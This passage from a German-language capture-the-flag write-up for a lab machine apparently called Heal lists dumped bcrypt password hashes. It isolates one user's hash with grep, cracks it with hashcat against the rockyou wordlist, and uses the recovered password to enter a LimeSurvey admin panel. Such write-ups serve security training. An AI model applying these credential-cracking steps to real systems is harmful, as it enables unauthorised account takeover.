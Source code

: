 hashes.txt:

```txt
ralph@heal.htb|$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG
test@htb.com|$2a$12$b/eb1KU/r9RfpyVRp2aBP.rDxE3p7.rRAjM8lCd0iLUnZh26VSpu.
nullbyte@heal.htb|$2a$12$xTfKk9gpBpZiSvIE.T5mMufHbAm/.c/kDKTBYg8cKcHxPwwU7gJgy
asdasd@gmail.com|$2a$12$5BTVuxrZTe31BRYWHD2ex.1FdTANkQnqSsaGwWgHBGq0heNTDlqGG
admii@gmail.com|$2a$12$HqR3ffCia8NuIrBFjS6tvexo/DDeBlCV5pwvo.v3WO6Z0iZM1/vaG
admin@gmail.com|$2a$12$Xe.3wFV2bDQHgJ8Bx6zX.uRho9IqV9i1o5mYT8x/0N.DSdLX25.GO
lyfe@gmail.com|$2a$12$j6pguy5SKwp6DppLiMtz1OQJS9ALkxTGInJkB9f/o6zcms5.D5Zre
```

#### 6. Nur Ralphs Hash isolieren & cracken

unser ziel ist nur ralphs pwd, also haben wir ihn isoliert und das pwd mit hashcat gecrackt:

```bash
grep '^ralph@' hashes.txt | cut -d'|' -f2 > ralph.hash
```

```bash
# rockyou ggf. entpacken da ich es noch nicht entpackt hatte:
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

```bash
# show flag zeigt den output an
hashcat -m 3200 ralph.hash /usr/share/wordlists/rockyou.txt --show
```

Hashcat Output:

`$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:147258369`

nice, jetzt haben wir ralphs pwd: `147258369`

#### 7. Erfolgreicher Admin‑Login

Mit

```
Benutzer : ralph@heal.htb
Passwort : 147258369
```

konnten wir uns unter http://take‑survey.heal.htb/admin einloggen und erhielten vollen Zugriff auf das LimeSurvey Backend (**Version 6.6.4, -> wichtig.**).
